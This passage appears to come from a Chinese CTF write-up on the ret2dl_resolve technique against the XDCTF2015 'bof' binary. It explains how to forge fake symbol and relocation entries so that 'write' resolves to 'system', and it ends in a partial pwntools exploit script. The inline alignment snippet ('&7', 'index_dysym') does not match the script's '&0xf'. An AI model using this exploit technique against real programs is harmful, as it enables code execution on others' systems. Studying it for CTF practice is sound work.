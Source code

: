   - 计算方法为

    ```c
    align = 0x10-(( fake_sym_addr - .dynsym ) &7 );
    fake_sym_addr = fake_sym_addr + align ;
    index_dynsym = (fake_sym_addr - .dynsym )/0x10;
    r_info = (index_dysym<<8) | 0x7    //保证这最后一字节为 0x07
    ```

- 劫持程序到**fake_sym**之后我们要做的就是让**fake_sym**指向我们定义的 **.dynstr** 中的对应函数字符串。一般**fake_sym**我们构造的结构为**fake_sym = p32(st_name) + p32(0) + p32(0) +  p32(0x12)**  ，**st_name**就是我们保存我字符串的地址

  ```cc
  st_name = (fake_sym_addr + 0x10) - dynstr //0x10 刚好为fake_sym的大小刚好让 函数字符串 保存在这个位置。
  ```

- 让这个字符串为我们需要的如：**system** 那我们之后就能调用**write**从而调用**system** 

![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5/QQ%E5%9B%BE%E7%89%8720191015221035.png)

最终的Exploit

```python
from pwn import *
p = process('./bof')
elf = ELF('./bof')

read_plt = elf.plt['read']
write_plt = elf.plt['write']
write_got = elf.got['write']
offset = 112
ppp_ret = 0x08048619 #pop esi ; pop edi ; pop ebp ; ret
pop_ebp_ret = 0x0804861b #pop ebp ; ret
leave_ret = 0x08048458 #leave ; ret
bss_addr = 0x0804a040 # readelf -S pwn1 | grep ".bss"
stack_size = 0x800
base_stage = bss_addr + stack_size
plt_0 = 0x08048380 #readelf -S
rel_plt = 0x08048330
dynsym = 0x080481d8
dynstr = 0x08048278


p.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
payload += p32(read_plt)
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret)
payload += p32(base_stage)
payload += p32(leave_ret)

p.sendline(payload)

index_offset = (base_stage + 28) - rel_plt
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
fake_dynstr = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(fake_dynstr) + p32(0) + p32(0) + p32(0x12)


```